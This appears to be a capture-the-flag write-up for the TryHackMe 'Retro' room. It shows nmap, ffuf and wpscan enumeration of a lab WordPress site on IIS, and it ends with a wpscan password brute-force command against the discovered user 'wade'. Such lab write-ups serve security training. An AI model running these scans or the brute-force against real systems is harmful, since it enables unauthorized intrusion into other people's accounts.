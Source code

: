 # Retro

![image](https://user-images.githubusercontent.com/5285547/131119489-6feda4b6-44b3-41aa-b3fa-bcb22ece0b84.png)

Room link: https://tryhackme.com/room/retro

Room IP: 10.10.22.148  
*\* for me your's will be different*

## Enumeration


Nmap 

```
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
```

-sCV

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-08-27T11:32:23+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-26T11:19:26
| Not valid after:  2022-02-25T11:19:26
| MD5:   9269 09a9 b05b 293f 4a56 f70c 66b0 c167
|_SHA-1: 1c04 1ffc e75d 5f9f f772 12eb 5fcc c808 1b53 a3ed
|_ssl-date: 2021-08-27T11:32:23+00:00; +1s from scanner time.
```


ffuf

```
ffuf -u http://10.10.22.148/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -mc all -fc 404

retro                   [Status: 301, Size: 149, Words: 9, Lines: 2]
```

Scanning the directories shows /retro endpoint


Port 80

http://10.10.22.148/retro

The page shows us lots of posts from a guy called Wade about classic gaming. 
I noticed the site urls are simular to how wordpress are laid out. There is a login link at the bottom that resolves to a wordpress login.  
This confirms my suspicion, time to get wp-scan out. 

```
wpscan --url http://10.10.22.148/retro/

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 
[i] User(s) Identified:

[+] wade
 | Found By: Author Posts - Author Pattern (Passive Detection)
```

We can see this is an IIS server (as confirmed in the nmap scan) and wade is the user.  
Let's try to brute his login for wordpress using wpscan

```
wpscan --url http://10.10.22.148/retro/ -U wade -P /usr/share/wordlists/rockyou.txt
```


